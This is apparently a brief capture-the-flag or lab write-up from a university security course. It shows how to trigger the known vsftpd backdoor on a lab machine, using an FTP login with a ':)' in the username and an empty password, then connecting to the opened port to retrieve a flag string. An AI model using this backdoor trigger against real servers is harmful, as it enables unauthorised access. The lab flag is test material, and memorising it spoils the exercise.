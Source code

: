 # 06

### bis.fit.vutbr.cz

1.) `ftp 192.168.122.143`

2.) username is a random sequence of characters containing a smiley face - `:)`

  * backdoor - https://en.wikipedia.org/wiki/Vsftpd

3.) password is empty

  * connection established

  * response: `220 Opened port 56530, take a look ;)`

4.) `ftp 192.168.122.143 56530`

5.) **Ziskali jste tajemstvi G_20-11-15-40-01_33582fcbcfaf70b70a85dd974c6831aad199fc150b7cc77c2fefaf59e87f9e4e**

